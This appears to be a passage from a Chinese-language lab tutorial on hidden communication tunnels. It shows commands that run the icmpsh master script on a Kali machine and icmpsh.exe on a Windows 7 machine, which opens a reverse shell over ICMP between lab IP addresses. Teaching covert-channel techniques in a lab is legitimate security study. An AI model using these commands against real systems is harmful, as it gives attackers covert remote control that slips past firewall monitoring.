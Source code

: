 ![](/assets/img/隐藏通信隧道基础知识/11.png)

于是我使用了Python脚本运行：

```
python icmpsh_m.py 192.168.217.129【kali】 192.168.217.132【win7】
```

![](/assets/img/隐藏通信隧道基础知识/12.png)

然后在Win7上执行命令：

```
icmpsh.exe -t 192.168.217.129
```